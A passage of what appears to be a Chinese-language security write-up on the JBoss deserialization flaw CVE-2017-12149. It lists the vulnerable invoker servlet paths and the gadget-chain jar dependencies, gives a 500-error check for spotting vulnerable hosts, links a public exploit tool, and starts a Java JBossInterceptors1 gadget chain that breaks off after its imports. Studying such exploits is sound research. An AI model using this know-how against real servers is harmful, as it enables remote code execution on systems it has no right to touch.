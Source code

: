 ```java
/invoker/readonly/*
/invoker/JMXInvokerServlet/*
/invoker/EJBInvokerServlet/*
/invoker/JMXInvokerHAServlet/*
/invoker/EJBInvokerHAServlet/*
/invoker/restricted/JMXInvokerServlet/* (需要登录)
```

可利用的jar包依赖

```java
commons-collections-3.1.jar
commons-beanutils-1.8.0.jar
hibernate-core-3.6.6.Final.jar
```

访问500错误说明有漏洞，这里先用工具实验一下，（[yunxu1/jboss-_CVE-2017-12149: CVE-2017-12149 jboss反序列化 可回显 (github.com)](https://github.com/yunxu1/jboss-_CVE-2017-12149)）

![image-20231211190754041](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231211190754041.png)

![image-20231211191257461](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231211191257461.png)

#### JBossInterceptors1

```java


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javassist.*;

import javassist.ClassPool;
import org.jboss.interceptor.builder.InterceptionModelBuilder;
import org.jboss.interceptor.builder.MethodReference;
import org.jboss.interceptor.proxy.DefaultInvocationContextFactory;
import org.jboss.interceptor.proxy.InterceptorMethodHandler;
import org.jboss.interceptor.reader.ClassMetadataInterceptorReference;
import org.jboss.interceptor.reader.DefaultMethodMetadata;
import org.jboss.interceptor.reader.ReflectiveClassMetadata;
import org.jboss.interceptor.reader.SimpleInterceptorMetadata;
import org.jboss.interceptor.spi.instance.InterceptorInstantiator;
import org.jboss.interceptor.spi.metadata.InterceptorReference;
import org.jboss.interceptor.spi.metadata.MethodMetadata;
import org.jboss.interceptor.spi.model.InterceptionModel;
import org.jboss.interceptor.spi.model.InterceptionType;


import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.*;

import org.jboss.interceptor.builder.InterceptionModelBuilder;
import org.jboss.interceptor.builder.MethodReference;
import org.jboss.interceptor.proxy.DefaultInvocationContextFactory;
import org.jboss.interceptor.proxy.InterceptorInvocation;
import org.jboss.interceptor.proxy.InterceptorMethodHandler;
import org.jboss.interceptor.spi.instance.InterceptorInstantiator;

```